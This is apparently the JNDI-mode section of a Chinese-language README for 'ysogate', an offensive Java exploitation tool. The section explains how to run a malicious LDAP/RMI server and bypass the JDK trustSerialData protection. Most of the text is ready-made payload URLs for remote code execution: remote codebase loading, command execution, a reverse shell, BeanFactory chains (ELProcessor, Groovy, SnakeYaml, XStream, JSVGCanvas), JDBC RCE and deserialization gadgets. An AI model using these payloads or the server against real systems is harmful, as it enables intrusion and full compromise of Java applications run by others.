 ## JNDI Mode

可以使用`-m jndi`来使用jndi模式，这个模式会在本地运行恶意的jndi服务器

```
[root]#~  JNDI Mode Options:
 -h,--help              Show help message
 -hp,--httpPort <arg>   HTTP port
 -i,--ip <arg>          IP address for JNDI server
 -ldap2rmi              change ldap to rmi to bypass trustSerialData
 -lp,--ldapPort <arg>   LDAP port
 -m,--mode <arg>        Operation mode: 'payload' or 'jndi' or 'gen'
 -onlyRef               use Reference only to bypass trustSerialData
 -rp,--rmiPort <arg>    RMI port
```

例如

```
java -jar ysogate-[version]-all.jar -m jndi -i 0.0.0.0 -onlyRef
```

### trustSerialData 绕过

在JDK20+版本中`com.sun.jndi.ldap.object.trustSerialData`属性默认为`false`，无法在com.sun.jndi.ldap.Obj#decodeObject中反序列化，绕过方式主要有：

**ldap2rmi**

通过设置javaRemoteLocation来使用com.sun.jndi.ldap.Obj#decodeRmiObject还原Factory对象，从ldap转换成rmi进行绕过

可以在启动时添加`-ldap2rmi`来进行可能的绕过，例如

```
java -jar ysogate-[version]-all.jar -m jndi -i 0.0.0.0 -ldap2rmi
```

**onlyRef**

利用本地Factory进行攻击时，可以通过设置`objectClass`为`javaNamingReference`来避免进行反序列化，利用decodeReference来还原Factory对象，不适用于BeanFactory绕过，因为BeanFactory需要ResourceRef类型。

可以在启动时添加`-onlyRef`来进行可能的绕过，例如

```
java -jar ysogate-[version]-all.jar -m jndi -i 0.0.0.0 -onlyRef
```

### codebase 注入

ldap和rmi通用，通过 JNDI Reference 指定codebase，远程加载ObjectFactory，需要trustURLCodebase=true，

```
# 参数支持urlsafe base64
ldap://127.0.0.1:1389/Basic/xxxxxxx/Y2FsYw==

# 执行命令
ldap://127.0.0.1:1389/Basic/Command/calc

# Dnslog
ldap://127.0.0.1:1389/Basic/DNSLog/xxx.dnslog.cn

# 加载自定义字节码
ldap://127.0.0.1:1389/Basic/Custom/data:yv66vxxxxxxxxxxxxx

# 从/tmp/a.class加载自定义字节码
ldap://127.0.0.1:1389/Basic/Custom/file:L3RtcC9hLmNsYXNz

# 加载内存马(todo)
ldap://127.0.0.1:1389/Basic/Custom/mem:Tomcat

# 原生反弹 Shell (支持 Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444
```

### 基于 BeanFactory

BeanFactory这个类在tomcat8+或者SpringBoot 1.2.x+存在

且要求tomcat版本小于9.0.63，或小于8.5.79

**Tomcat ELProcessor**

利用javax.el.ELProcessor#eval

```
# 使用方式同Basic

# 使用el调用ScriptEngineManager来加载字节码(nashorn在JDK15后被移除)
ldap://127.0.0.1:1389/ELProcessor/Command/calc
ldap://127.0.0.1:1389/ELProcessor/Custom/data:yv66vxxxxxxxxxxxxx

# jdk9以上可以用el调用JShell来加载字节码
ldap://127.0.0.1:1389/ELProcessor17/Command/calc
```

**GroovyShell & GroovyClassLoader**

利用groovy.lang.GroovyShell#evaluate和groovy.lang.GroovyClassLoader#parseClass(java.lang.String)

```**SnakeYaml**
# 使用方式同Basic
ldap://127.0.0.1:1389/GroovyClassLoader/Command/calc
ldap://127.0.0.1:1389/GroovyShell/Command/calc
```

**SnakeYaml**

利用org.yaml.snakeyaml.Yaml#load(java.lang.String)

```
# 使用方式同Basic
ldap://127.0.0.1:1389/SnakeYaml/Command/calc
```

**XStream**

利用com.thoughtworks.xstream.XStream#fromXML(java.net.URL)

可以打CVE-2021-39149，要求XStream < 1.4.18

```
# 暂时只写了执行命令
ldap://127.0.0.1:1389/XStream/calc
```

**MLet**

通过 MLet 探测 classpath 中存在的类

```
ldap://127.0.0.1:1389/MLet/com.example.TestClass
```

如果 `com.example.TestClass` 这个类存在, 则 HTTP 服务器会接收到一个 `/com/example/TestClass_exists.class` 请求

**NativeLibLoader**

利用com.sun.glass.utils.NativeLibLoader#loadLibrary加载目标服务器上的动态链接库，适用于能够写文件的场景

写入dll/so/dylib文件，例如/tmp/evil.so，使用时把路径去掉后缀， 即/tmp/evil

```
ldap://127.0.0.1:1389/NativeLibLoader/L3RtcC9ldmls
```
**JSVGCanvas**
高版本tomcat下通过GenericNamingResourcesFactory来调用setter，触发 org.apache.batik.swing.JSVGCanvas#setURI，需要TomcatJDBC，batik-swing 1.15以下，适用于高版本TomcatBypass
```
ldap://127.0.0.1:1389/JSVGCanvas/Command/calc
```
### JDBC RCE

支持以下数据库连接池

- Commons DBCP
- Tomcat DBCP
- Tomcat JDBC
- Alibaba Druid
- HikariCP
- C3P0

支持以下数据库

- Mysql
- PostgreSQL
- H2
- IBM DB2
- Derby
- Teradata

```
ldap://127.0.0.1:1389/TomcatJDBC/H2/Java/Command/calc
```

### 反序列化

通过反序列化来进行RCE，暂不支持rmi协议

```
# 执行命令
ldap://127.0.0.1:1389/Deserialize/{gadget}/Command/{cmd}

# 加载自定义字节码（部分需要继承AbstractTranslet）
ldap://127.0.0.1:1389/Deserialize/{gadget}/Custom/data:yv66vxxxxxxxxxxxxx

# 从/tmp/a.class加载自定义字节码（部分需要继承AbstractTranslet）
ldap://127.0.0.1:1389/Deserialize/{gadget}/Custom/file:L3RtcC9hLmNsYXNz

# 加载内存马(todo)
ldap://127.0.0.1:1389/Deserialize/{gadget}/Custom/mem:Tomcat

# example
ldap://127.0.0.1:1389/Deserialize/Jackson2/Command/calc
```
